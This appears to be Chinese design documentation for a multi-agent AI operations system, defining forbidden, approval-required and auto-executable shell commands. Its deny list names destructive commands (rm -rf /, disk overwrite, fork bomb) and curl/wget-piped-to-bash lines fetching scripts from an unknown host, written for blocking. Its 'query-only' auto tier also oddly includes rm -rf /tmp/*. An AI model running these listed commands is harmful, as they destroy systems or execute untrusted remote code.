





# 命令分类管理体系

<cite>
**本文档引用的文件**
- [PROJECT_CONTEXT.md](file://PROJECT_CONTEXT.md)
- [orchestrator-system-prompt.md](file://docs/prompts/orchestrator-system-prompt.md)
- [shared-safety-constraints.md](file://docs/prompts/shared-safety-constraints.md)
- [init.sql](file://sql/init.sql)
- [milvus_collection.yaml](file://config/milvus_collection.yaml)
- [docker-compose.yml](file://docker-compose.yml)
- [init_milvus.py](file://scripts/init_milvus.py)
- [main.py](file://anomaly-detection-service/app/main.py)
- [detection_service.py](file://anomaly-detection-service/app/services/detection_service.py)
- [pyod_detector.py](file://anomaly-detection-service/app/core/pyod_detector.py)
</cite>

## 目录
1. [简介](#简介)
2. [项目结构](#项目结构)
3. [核心组件](#核心组件)
4. [架构概览](#架构概览)
5. [详细组件分析](#详细组件分析)
6. [依赖分析](#依赖分析)
7. [性能考虑](#性能考虑)
8. [故障排除指南](#故障排除指南)
9. [结论](#结论)

## 简介

本文件为智能运维系统创建命令分类管理体系文档。该系统基于NetData监控数据，构建了多Agent协同的智能运维平台，具备自然语言问答、智能故障诊断和命令执行等功能。本文档重点阐述命令分类管理体系，包括绝对禁止命令、需要审批命令和自动执行命令的定义标准、分类依据和管理机制。

## 项目结构

智能运维系统采用模块化架构设计，包含以下主要组件：



**图表来源**
- [PROJECT_CONTEXT.md:120-149](file://PROJECT_CONTEXT.md#L120-L149)
- [docker-compose.yml:23-357](file://docker-compose.yml#L23-L357)

**章节来源**
- [PROJECT_CONTEXT.md:16-166](file://PROJECT_CONTEXT.md#L16-L166)
- [docker-compose.yml:1-357](file://docker-compose.yml#L1-L357)

## 核心组件

### Orchestrator Agent（编排代理）

编排代理是系统的核心协调者，负责意图识别、任务路由和结果汇总。其核心职责包括：

- **意图识别**：分析用户输入，判断主要意图类型
- **任务路由**：根据意图选择合适的子Agent
- **结果汇总**：整合多Agent输出，生成最终回复

### Execution Agent（执行代理）

执行代理专门负责命令执行相关的任务，具有以下特点：
- 任何涉及删除、修改、重启的操作必须路由至Execution Agent
- Execution Agent会自动触发Human-in-the-Loop审批流程
- 禁止直接生成执行命令

### 安全约束体系

系统建立了完整的安全约束体系，确保所有操作的安全性：



**图表来源**
- [orchestrator-system-prompt.md:119-136](file://docs/prompts/orchestrator-system-prompt.md#L119-L136)
- [shared-safety-constraints.md:29-127](file://docs/prompts/shared-safety-constraints.md#L29-L127)

**章节来源**
- [orchestrator-system-prompt.md:1-291](file://docs/prompts/orchestrator-system-prompt.md#L1-L291)
- [shared-safety-constraints.md:1-396](file://docs/prompts/shared-safety-constraints.md#L1-L396)

## 架构概览

系统采用Orchestrator-Subagent模式，实现了智能运维的完整闭环：



**图表来源**
- [PROJECT_CONTEXT.md:43-61](file://PROJECT_CONTEXT.md#L43-L61)
- [orchestrator-system-prompt.md:16-28](file://docs/prompts/orchestrator-system-prompt.md#L16-L28)

## 详细组件分析

### 命令分类管理体系

#### 绝对禁止命令

绝对禁止命令是指任何情况下都不允许执行的危险命令，系统严格禁止以下操作：

**系统销毁命令**
- `rm -rf /` - 删除根目录
- `mkfs.ext4 /dev/sda1` - 格式化系统盘
- `dd if=/dev/zero of=/dev/sda` - 覆写磁盘

**权限开放命令**
- `chmod 777 /` - 设置系统目录为完全权限
- `chmod -R 777 /etc` - 递归设置/etc目录权限
- `chown -R nobody:nobody /` - 更改系统文件所有权

**防火墙清空命令**
- `iptables -F` - 清空iptables规则
- `iptables -X` - 删除自定义链

**密码修改命令**
- `passwd root` - 修改root密码
- `userdel root` - 删除root用户

**系统关机/重启命令**
- `shutdown -h now` - 立即关机
- `reboot` - 重启系统
- `init 0` - 关机
- `init 6` - 重启

**危险脚本执行**
- `curl http://unknown.com/script.sh | bash` - 从未知源下载执行
- `wget -O - http://unknown.com/script.sh | bash` - 从未知源下载执行

**Fork炸弹**
- `:(){ :|:& };:` - 创建无限进程

**判断标准**
- 基于命令模式匹配的静态规则
- 任何包含上述模式的命令都会被标记为绝对禁止
- 不论用户权限如何，一律拒绝执行

#### 需要审批命令

需要审批命令是指具有一定风险但可以通过人工审批执行的命令，系统要求以下操作必须经过审批：

**服务操作**
- `systemctl stop <service>` - 停止服务
- `systemctl restart <service>` - 重启服务
- `service <service> stop` - 使用service命令停止

**进程操作**
- `kill -9 <pid>` - 强制终止进程
- `pkill -9 <process_name>` - 按名称强制终止进程

**配置修改**
- `vim /etc/<config>` - 编辑系统配置文件
- `sed -i ... /etc/<config>` - 修改配置文件

**数据操作**
- `mysql -e "DROP DATABASE ..."` - 删除数据库
- `rm -rf /data/*` - 删除数据目录
- `mv /important/data /backup` - 移动重要数据

**网络操作**
- `iptables -A ...` - 添加防火墙规则
- `route add ...` - 添加路由
- `ip link set eth0 down` - 关闭网络接口

**审批条件**
- 需要根据命令的风险等级确定审批权限
- 低风险命令可由operator审批
- 中风险命令需admin审批
- 高风险命令需super-admin审批

#### 自动执行命令

自动执行命令是在系统安全范围内可以自动执行的命令，主要包括：

**信息查询命令**
- `ps aux` - 查看所有进程
- `top -bn1` - 查看系统负载
- `netstat -tlnp` - 查看网络连接
- `ss -tlnp` - 查看socket状态
- `df -h` - 查看磁盘使用
- `free -m` - 查看内存使用
- `iostat` - 查看I/O统计
- `vmstat` - 查看虚拟内存统计

**日志查看命令**
- `tail -f /var/log/<logfile>` - 实时查看日志
- `head -n 100 /var/log/<logfile>` - 查看日志前100行
- `grep "pattern" /var/log/<logfile>` - 搜索日志
- `journalctl -u <service>` - 查看服务日志

**服务状态命令**
- `systemctl status <service>` - 查看服务状态
- `docker ps` - 查看Docker容器
- `docker logs <container>` - 查看容器日志

**临时文件清理**
- `rm -rf /tmp/*` - 清理临时目录
- `find /tmp -mtime +7 -delete` - 删除7天前的临时文件

**执行限制**
- 仅限于查询类命令，不包含修改操作
- 所有命令都必须经过安全检查
- 需要记录详细的审计日志

### 权限矩阵配置

系统建立了完善的权限控制矩阵，定义了不同角色的操作权限：

| 角色 | 知识问答 | 故障诊断 | 自动执行命令 | 审批执行命令 |
|------|---------|---------|-------------|-------------|
| viewer | ✅ | ✅ | ❌ | ❌ |
| operator | ✅ | ✅ | ✅ | ✅ |
| admin | ✅ | ✅ | ✅ | ✅ |
| super-admin | ✅ | ✅ | ✅ | ✅ + 越权审批 |

**审批流程**


**图表来源**
- [shared-safety-constraints.md:244-258](file://docs/prompts/shared-safety-constraints.md#L244-L258)

### 动态更新机制

系统支持命令分类规则的动态更新，通过以下机制实现：

**配置管理**
- 命令分类规则存储在数据库中
- 支持在线更新和热部署
- 提供版本控制和回滚机制

**规则引擎**
- 基于正则表达式的命令匹配
- 支持通配符和参数化规则
- 可扩展的规则解析器

**审计追踪**
- 所有规则变更记录在案
- 变更历史可追溯
- 支持管理员审核

**章节来源**
- [shared-safety-constraints.md:29-127](file://docs/prompts/shared-safety-constraints.md#L29-L127)
- [shared-safety-constraints.md:233-258](file://docs/prompts/shared-safety-constraints.md#L233-L258)
- [init.sql:141-170](file://sql/init.sql#L141-L170)

## 依赖分析

系统各组件之间的依赖关系如下：



**图表来源**
- [docker-compose.yml:23-357](file://docker-compose.yml#L23-L357)
- [init.sql:22-138](file://sql/init.sql#L22-L138)

**章节来源**
- [docker-compose.yml:23-357](file://docker-compose.yml#L23-L357)
- [init.sql:22-246](file://sql/init.sql#L22-L246)

## 性能考虑

### 命令执行性能

系统在命令执行方面采用了多项优化措施：

**并发控制**
- 命令执行队列管理
- 资源使用限制
- 超时控制机制

**缓存策略**
- 命令模板缓存
- 审批结果缓存
- 用户权限缓存

**监控指标**
- 命令执行时间统计
- 审批通过率监控
- 系统资源使用监控

### 数据库性能

MySQL数据库针对运维场景进行了专门优化：

**索引优化**
- 执行审计表建立复合索引
- 用户表建立角色索引
- 命令模板表建立分类索引

**查询优化**
- 告警统计视图
- 执行统计视图
- 性能监控查询

**章节来源**
- [init.sql:139-274](file://sql/init.sql#L139-L274)
- [milvus_collection.yaml:70-186](file://config/milvus_collection.yaml#L70-L186)

## 故障排除指南

### 常见问题及解决方案

**命令执行失败**
- 检查命令是否在黑名单中
- 验证用户权限是否足够
- 确认审批流程是否完成
- 查看审计日志获取详细信息

**审批流程异常**
- 检查审批人是否存在
- 验证审批权限配置
- 确认审批超时设置
- 查看审批历史记录

**系统性能问题**
- 监控数据库连接数
- 检查Redis缓存状态
- 验证Milvus连接情况
- 查看系统资源使用情况

### 审计日志分析

系统提供了完整的审计日志功能，支持问题排查：

**日志格式**
```json
{
  "timestamp": "2024-01-15T10:30:00Z",
  "event_type": "COMMAND_EXECUTION",
  "user": "admin",
  "action": "systemctl restart nginx",
  "resource": "web-01",
  "result": "SUCCESS",
  "ip_address": "192.168.1.100",
  "session_id": "sess-abc123",
  "duration_ms": 1523
}
```

**日志记录内容**
- 用户登录/登出
- 命令生成
- 风险评估
- 审批决策
- 命令执行
- 配置变更
- 数据访问

**章节来源**
- [shared-safety-constraints.md:296-323](file://docs/prompts/shared-safety-constraints.md#L296-L323)

## 结论

智能运维系统的命令分类管理体系通过严格的分级管理和多重安全控制，确保了系统操作的安全性和可靠性。该体系具有以下特点：

1. **层次清晰**：绝对禁止、需要审批、自动执行三级分类明确
2. **覆盖全面**：涵盖了运维操作的所有场景
3. **动态可调**：支持规则的在线更新和版本管理
4. **审计完整**：全程记录操作过程，便于追溯
5. **权限明确**：基于角色的权限矩阵确保最小权限原则

通过实施这套管理体系，系统能够在保证运维效率的同时，最大程度地降低操作风险，为企业的智能化运维提供了坚实的技术支撑。